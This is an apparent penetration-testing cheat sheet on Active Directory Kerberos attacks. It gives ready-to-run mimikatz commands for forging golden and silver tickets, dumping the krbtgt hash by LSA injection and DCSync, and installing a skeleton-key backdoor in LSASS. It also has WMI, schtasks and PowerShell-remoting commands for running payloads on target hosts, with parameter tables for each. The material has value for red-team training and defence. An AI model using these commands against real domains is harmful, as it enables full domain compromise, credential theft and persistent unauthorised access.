 # Tickets

## Get domain SID

Execute the following command in a domain machine.&#x20;

```
whoami /user
```

The SID is a string formatted as following. We need the string without the RID

```
S-1-5-21-1602875587-2787523311-2599479668 [-1103]
|------------------SID-------------------||--RID--|
```

## Golden Ticket

a valid ticket forged from the Domain Controller KRBTGT hash. Allows an attacker to impersonate any user on any machine even from an host external to the domain.

```
kerberos::golden /domain:<domain> /sid:<sid> /aes256:<aes> /user:<user> /groups:<groups> /ptt
```

Create Golden Ticket as Administrator user and store it in memory

```
kerberos::golden /User:Administrator /domain:<domain> /sid:<SID> /krbtgt:<ticket> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

| Parameter                              | Description                                                                                  |
| -------------------------------------- | -------------------------------------------------------------------------------------------- |
| /user                                  | Username                                                                                     |
| /domain                                | FQDN                                                                                         |
| /sid                                   | Domain SID                                                                                   |
| /krbtgt OR /aes128 OR /aes256 OR /ntlm | key to use to generate the ticket                                                            |
| /id                                    | User ID, use 500 for Administrator                                                           |
| /groups                                | Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset                           | 0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin                                 | Optional ticket lifetime in minutes. Default is 600 (10 hours)                               |
| /renewmax                              | Optional ticket lifetime in minutes. Default is 10080 (7 days)                               |
| /ptt OR /ticket                        | Load the ticket in memory or store it as a file for later use                                |

### Mimikatz info dump

```
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::trust /patch
lsadump::dcsync /user:krbtgt
```

## Silver Ticket

Create a valid TGT ticket from a known NTLM service hash. Allows to gain access to the service machine.

```
kerberos::golden /user:<user> /domain:<domain> /sid:<SID> /rc4:<hash> /id:<id> /groups:<groups> /service:<srv> /target:<host>
```

| Parameter       | Description                                                                                  |
| --------------- | -------------------------------------------------------------------------------------------- |
| /user           | Username                                                                                     |
| /domain         | FQDN                                                                                         |
| /sid            | Domain SID                                                                                   |
| /rc4            | NTLM key                                                                                     |
| /id             | User ID, use 500 for Administrator                                                           |
| /groups         | Associated groups, accepts multiple separated by a comma. Default is 512,513,520             |
| /startoffset    | 0 means available from now, positive numbers add a delay in minutes to the ticket activation |
| /endin          | Optional ticket lifetime in minutes. Default is 600 (10 hours)                               |
| /renewmax       | Optional ticket lifetime in minutes. Default is 10080 (7 days)                               |
| /service        | Type of service to attack. See table below for reference.                                    |
| /target         | The target host                                                                              |
| /ptt OR /ticket | Load the ticket in memory or store it as a file for later use                                |

### List of service attacks

In case of multiple tickets, the attacker has to create a new silver ticket for the same target host for each specified service type. The following attacks are run from the Windows machine where oyu have created the ticket

| Service                             | Silver Tickets service types required          |
| ----------------------------------- | ---------------------------------------------- |
| WMI                                 | HOST, RPCSS                                    |
| PowerShell Remoting                 | HOST, HTTP, WSMAN or RPCSS depending on the OS |
| WinRM                               | HOST, HTTP                                     |
| Task Scheduler                      | HOST                                           |
| LDAP                                | LDAP                                           |
| Windows File Share                  | CIFS                                           |
| Windows Remote Administration Tools | RPCSS, LDAP, CIFS                              |

#### WMI

```
wmic.exe /authority:"kerberos:<domain>\<DC>" /node:"<target>" process call create "<payload>"
```

#### PowerShell remoting / WinRM

```
New-PSSESSION -NAME PSC -ComputerName <target>; Enter-PSSession -Name PSC
```

#### Task Scheduler

```
schtasks /create /s <target> /SC <time> <amount> /RU "NT Authority\System" /IR "<payload>"
schtasks /create /s <target> /SC <time> <amount> /RU "<group>/<user>" /IR "<payload>"
```

The available times are MINUTE, HOURLY, DAILY, WEEKLY, MONTHLY, ONCE, ONSTART, ONLOGON, ONIDLE. For the first 5 ones you also have to specify an amount of time, for instance HOURLY 3 means start every 3 hours.

#### Windows File Share

```
dir \\<target>\c$
```

#### LDAP Desync attack

```
lsadump::dcsync /dc:<DC> /domain:<domain> /user:krbtgt
```

## Skeleton Key

Patches the LSASS Domain Controller process to allow access for a determined user with an arbitrary password specified by the attacker. After the attack both the new password and the original one are considered valid. The default injected password is mimikatz.

```
misc::skeleton
```
